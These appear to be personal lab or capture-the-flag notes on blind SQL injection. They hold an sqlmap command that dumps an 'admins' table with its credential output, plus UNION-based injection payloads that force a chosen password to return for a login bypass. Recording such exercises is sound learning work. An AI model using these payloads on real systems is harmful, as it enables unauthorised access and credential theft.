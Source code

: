 ____
`
Blind SQLi

SQLmap

```bash
--level 5 --risk 3 -p username --batch --threads 10 -T admins -D level2 -  
-dump
```

```
+----+----------+----------+  
| id | password | username |  
+----+----------+----------+  
| 1  | cheryl   | joellen  |  
+----+----------+----------+
```


Change request method

![[Pasted image 20241114192816.png]]

SQLi

```sql
test' UNION SELECT 'danidani'-- -
```

![[Pasted image 20241114193326.png]]

```sql
SELECT password FROM admins where username='joellen'
```
returns cheryl

```sql
SELECT password FROM admins where username='joellen' UNION SELECT 'password'
```
returns cheryl

```sql
SELECT password FROM admins where username='test' UNION SELECT 'password'
```
returns password (with no real username)

![[Pasted image 20241114193731.png]]


```sql
SELECT password FROM admins where username='test' UNION SELECT 'danidani'
```
returns danidani (with no real username)